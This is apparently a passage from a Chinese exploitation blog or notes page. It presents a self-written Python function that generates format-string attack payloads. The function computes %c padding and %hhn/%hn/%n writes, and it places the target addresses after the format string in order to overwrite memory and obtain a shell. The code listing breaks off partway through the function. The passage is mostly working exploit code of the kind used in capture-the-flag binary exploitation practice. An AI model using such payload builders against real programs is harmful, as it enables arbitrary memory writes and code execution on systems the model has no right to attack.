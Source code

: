 ### 自己写的一个关键函数

但是getshell cover覆盖地址的时候需要改变代码:(珍贵的反序函数代码用来把地址放在后面...纯手工冰粉,现做现卖...)

```python
def antitone_fmt_payload(offset, writes, numbwritten=0, write_size='byte'):
	config = {
		32 : {
			'byte': (4, 1, 0xFF, 'hh', 8),
			'short': (2, 2, 0xFFFF, 'h', 16),
			'int': (1, 4, 0xFFFFFFFF, '', 32)},
		64 : {
			'byte': (8, 1, 0xFF, 'hh', 8),
			'short': (4, 2, 0xFFFF, 'h', 16),
			'int': (2, 4, 0xFFFFFFFF, '', 32)
		}
	}

	if write_size not in ['byte', 'short', 'int']:
		log.error("write_size must be 'byte', 'short' or 'int'")

	number, step, mask, formatz, decalage = config[context.bits][write_size]

	payload = ""

	payload_last = ""
	for where,what in writes.items():
		for i in range(0,number*step,step):
			payload_last += pack(where+i)

	fmtCount = 0
	payload_forward = ""
	
	key_toadd = []
	key_offset_fmtCount = []


	for where,what in writes.items():
		for i in range(0,number):
			current = what & mask
			if numbwritten & mask <= current:
				to_add = current - (numbwritten & mask)
			else:
				to_add = (current | (mask+1)) - (numbwritten & mask)

			if to_add != 0:
				key_toadd.append(to_add)
				payload_forward += "%{}c".format(to_add)
			else:
				key_toadd.append(to_add)
			payload_forward += "%{}${}n".format(offset + fmtCount, formatz)
			key_offset_fmtCount.append(offset + fmtCount)
			#key_formatz.append(formatz)

			numbwritten += to_add
			what >>= decalage
			fmtCount += 1

	
	len1 = len(payload_forward)

	key_temp = []
	for i in range(len(key_offset_fmtCount)):
		key_temp.append(key_offset_fmtCount[i])
```